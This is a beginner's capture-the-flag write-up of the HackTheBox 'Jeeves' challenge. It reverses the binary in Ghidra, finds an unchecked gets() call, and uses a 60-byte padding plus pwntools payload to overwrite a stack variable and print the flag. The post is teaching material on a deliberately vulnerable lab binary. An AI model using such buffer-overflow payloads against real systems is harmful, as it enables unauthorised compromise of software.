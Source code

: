 ```yaml
---
title: "Intro to Binary Exploitation - Jeeves"
layout: post
author: "daniboomberger"
date: 2021-02-24 18:13:44 +0530
categories: [HackTheBox, Challenge]
tags: [htb, pwn, bof, binexp]
math: true
image: /assets/img/htb_jeeves/jeeves_title.png
---
```


# Intro to Binary Exploitation - Jeeves
```
> My first pwn challenge on the platform HackTheBox. 
> It was a simple and basic `Buffer Overflow`.
> I don't really have to much prior experience in pwn so it was a new challenge to me.
> Author: `daniboomberger`
```

## First Step - Reversing

So after we download the executable from HTB, my first command I run against any new file/challenge is `file`.
```
boomberger@kali:~/Documents/htb/challenges/pwn/jeeves$ file jeeves
jeeves: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1=18c31354ce48c8d63267a9a807f1799988af27bf, for GNU/Linux 3.2.0, not stripped
```

From the information above I usally look what the file type is, in our case an `ELF 64-bit executable`. Also we see it's not stripped which means all strings are in original form and we can basically read them in original form.
With this information I open `Ghidra` and open the ELF-executable, because Ghidra has a the functionality to convert the assembly code into readable Code(C). It's a useful feature cause it way easier to read and understand the functionality of the executable.
The Code that Ghidra did convert into C is as the following besides that there wasn't much to see:
```C
undefined8 main(void)
{
  char local_48 [44];
  int local_1c;
  void *local_18;
  int local_c;
  
  local_c = -0x21523f2d;
  printf("Hello, good sir!\nMay I have your name? ");
  gets(local_48);
  printf("Hello %s, hope you have a good day!\n",local_48);
  if (local_c == 0x1337bab3) {
    local_18 = malloc(0x100);
    local_1c = open("flag.txt",0);
    read(local_1c,local_18,0x100);
    printf("Pleased to make your acquaintance. Here\'s a small gift: %s\n",local_18);
    close(local_1c);
  }
  return 0;
}
```
By analyzing this code we can get actually all information we need to exploit it. The first thing we see is the `local_48`, which is set to `[44]` characters.
The same local variable will be filled with an input. The function `gets(local_48)` is known to be vulnerable to Buffer Overflows. Before creating a payload for the input we have to look at some other parts. The next import line of code is `if (local_c == 0x1337bab3)`. What we can get from this line is that we only can enter the if statement if the `local_c` variable has the value `0x1337bab3`. 
With some pre-knowledge about Stacks. Stacks grow basically down and get added up the heap grows up, but this information isn't necassary for the challenge.
Actually the `local_48` is the first initilized variable in the code, so we know that stacks grow down we can assume that we are able to overwrite `local_c`. 
But it's not that we can just add 44 character and then our needed value of `0x1337bab3`, because the Code has some mor variables that get initialized.
In Ghidra we are able to see the size of each variable and so we can calculate the starting point of the `local_c` variable. In the following hand-drawn picture I will try to visualize how the Stack looks in this application:
![Stack](/assets/img/htb_jeeves/stack.png)

(I know I drew it beautiful could say "I'm the pablo picasso of cyber security :)", also the Stack has more parts it's just visulized of our variables. If you need to )
As we see in the Stack we accumalated to 60 bytes of all local variables, to actually successfully overwrite the `local_c` variable we need 4 more bytes to pass our prefered value. On addition the payload will be 64 bytes.
For crafting a small payload I used python2 with the library pwntools. So we have all information needed to get the flag.
Also the python code isn't too much of magic is just this: 
```python
import pwn

print 'A' * 60 + pwn.p64(0x1337bab3)
```
> python2 -c "import pwn; print 'A' * 60 + pwn.p64(0x1337bab3)" > payload.txt

The above one I just wrote to make it more understandable and readable.
I used the second command but it actually doesn't really matter because the output is both the same, well the second command writes it in a `payloads.txt` file.
After we crafted the payload string we can try it on the binary executable....
```
boomberger@kali:~/Documents/htb/challenges/pwn/jeeves$ nc ip port < payload.txt
Hello, good sir!
May I have your name? Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��7, hope you have a good day!
Pleased to make your acquaintance. Here's a small gift: HTB{hahahah_this_not_a_real_flag_frick_you}
```

The most interesting part of course is the payload we provided `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��7` the 'A' is to get to the point where we can overwrite our value to the `local_c` variable. The special characters is the value we want to overwrite the stack location of `local_c`.

> Thanks for reading the Article
> I have nothing more to add idk why I'm even writing this line so bye....








